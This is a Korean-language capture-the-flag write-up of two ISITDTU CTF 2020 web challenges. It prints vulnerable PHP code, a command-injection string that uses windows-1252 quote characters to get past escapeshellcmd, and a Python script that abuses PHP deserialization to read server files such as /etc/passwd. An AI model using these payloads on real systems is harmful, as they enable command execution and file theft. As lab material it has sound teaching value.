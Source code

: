 ```yaml
---
layout: post
date: 2020-10-14 00:00:11
title: "ISITDTU CTF 2020 Write Up"
categories: CTF
tags: [Command Injection, PHP Object Injection]
author:
  - Jeongwon Jo

---
```

## (Web) Unexploitable [984 pts]

> Unexploitable 문제는 Command Injection 문제입니다. 

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbBTsc9%2FbtqKTFXChn9%2FwZaECUxbarmKUIG078oke1%2Fimg.png)

문제로 들어오면 위처럼 Debug 모드로 들어갈 수 있는 링크가 존재합니다.

```php
<?php

include "config.php";
set_time_limit(1);
if (isset($_GET['debug']))
{
    show_source(__FILE__);
}

if (isset($_GET['host']) && !empty($_GET['host']))
{
    $host = $_GET['host'];

    $host = remove_quot($host);
    
    $san_host = escapeshellcmd($host);
    
    system("powershell -Command ping -n 1 '$san_host'");

}

?>

<a href="?debug">Debug</a> Debug
```
그래서 일단 Debug 모드로 들어오니 PHP 코드가 보이는 것을 볼 수 있습니다. 코드를 보면 host 값을 가져와서 remove_quot() 함수를 이용해서 모든 쿼터들을 제거하고, escapeshellcmd() 함수를 이용해서 특수 문자 앞에 슬래쉬를 붙여 $san_host 변수에 넣어주는 것을 볼 수 있습니다.

그리고 마지막으로 system() 함수를 실행시키는 데 이때 저희가 입력한 값이 들어가는 것을 볼 수 있습니다. 여기서 저는 `Command Injection` 문제라고 생각했습니다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FxgfaO%2FbtqKRNWmmGI%2FMKWWaBxMOhVtTCDK8dSNk0%2Fimg.png)

하지만 필터링에 의해서 싱글 쿼터를 사용할 수 없기 때문에 ping 명령어를 탈출할 수 없었습니다. 그러다가 우연히 문제 `Domain`만 치고 들어가니 해당 서버가 `windows server`인 `iis`를 사용하고 있는 것을 알 수 있었습니다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FArYWb%2FbtqKOB3u5Fo%2FsKRkzkc5MkgB09kZex9DgK%2Fimg.png)

그래서 윈도우 서버 특수 문자를 키워드로 검색을 해보니 `windows-1252` 방식으로 이루어진 특수 문자가 존재하는 것을 볼 수 있었습니다. 위 사진을 보시면 82, 91, 92는 싱글 쿼터를 대체할 수 있는 거 같고, 84, 93, 94는 더블 쿼터를 대체할 수 있는 거 같습니다.

한 번 이를 이용해서 ping 명령어를 탈출해서 다른 명령어를 실행시켜보겠습니다.

```
powershell -Command ping -n 1 '141.164.55.161'; ls ''
```
위와 같이 만들어주면 ping 명령어가 실행되고 나서 ls 명령어가 실행이 될 것입니다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fb8aQeq%2FbtqKShpoFPE%2FAbj0m62SOGD6Nrk3ZwiOhK%2Fimg.png)

저는 82, 91, 92 중에서 92를 사용해서 싱글 쿼터를 대체하고, 이를 이용해서 ls 명령어를 실행해보니 config.php, flag.php, index.php 파일이 존재하는 것을 알 수 있었습니다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbxipKP%2FbtqKMz6dIb7%2FoTfMTrk2YXcfBYQMScrgc1%2Fimg.png)

마지막으로 cat 명령어를 이용해서 `flag.php` 파일을 읽어보니 FLAG가 들어있는 것을 볼 수 있었습니다. 이번 문제를 풀면서 처음으로 IIS 서버에서 싱글 쿼터를 우회하는 방법을 알게 되었고, windows-1252 인코딩 방식이 있다는 것도 알 수 있었습니다.

> FLAG : ISITDTU{6d77c41b70c235d1b077ad65e274a3c948bf56eb}

---
## (Web) Warmup [XXX pts]

> Warmup 문제는 간단한 PHP Object Injection 였는데 엄청난 실수로 풀지 못 했습니다.

```php
<?php
class Read{
    public $flag;
    public function __wakeup(){
        echo file_get_contents($this->flag);
    }
}
if(isset($_GET['username'])){
    if(isset($_GET['password']))
    {
        $password = $_GET['password'];
        unserialize($password);
    }
}
highlight_file(__FILE__);
?>
```
해당 문제로 들어오게 되면 위와 같은 PHP 코드가 보이는 것을 볼 수 있습니다. 일단 입력값을 `unserialize()` 메서드를 이용해서 역직렬화를 해주는 것을 보아  `PHP Object Injection`이라고 생각이 들었습니다. 하지만 `__wakeup()` 함수를 처음 보아서 이와 관련해서 조금 검색을 해보았습니다. 

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fcqno3T%2FbtqKTG3qpro%2FjncPfrlLytMkGCkoyKjuWk%2Fimg.png)

검색을 해보니 `__wakeup()` 함수가 사용된 문제들이 많이 출제됐던 거 같습니다. 저만 이번에 처음 보는 거군요. 여하튼 위를 이용해서 `PHP Object Injection` 공격을 시도했습니다. 

```python
import requests

while(1):
	path = input("File Nmae : ")
	if path == '0':
		break
	path_len = len(path)
	url = 'http://35.220.140.18:5000/?username=&password=O:4:"Read":1:{s:4:"flag";s:' + str(path_len) + ':"' + path  +'";}'
	res = requests.get(url)
	print(res.text)
```
위와 같이 익스플로잇 코드를 작성해서 `/etc/passwd`, 아파치 설정 파일과 같은 것들을 모두 뒤져보았지만 결국 플래그를 획득하지 못 했습니다.

그러다가 오늘 오후 12시 45분쯤에 갑자기 생각이 나서 아는 분께 여쭤보니. robots.txt 파일에 플래그 파일이 있다고 하셨습니다. 너무 허무했습니다.

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdneNEx%2FbtqKROgS2KF%2FPCkQfbI9xsTU4Nxo1k1knK%2Fimg.png)

그래서 robots.txt 파일을 확인해 보니 `fl4g.php` 파일인 것을 알 수 있었습니다 :( fl4g.php 파일을 릭해 플래그를 획득할 수 있었습니다.

> FLAG : ISITDTU{4re_y0u_w4rm?}

---
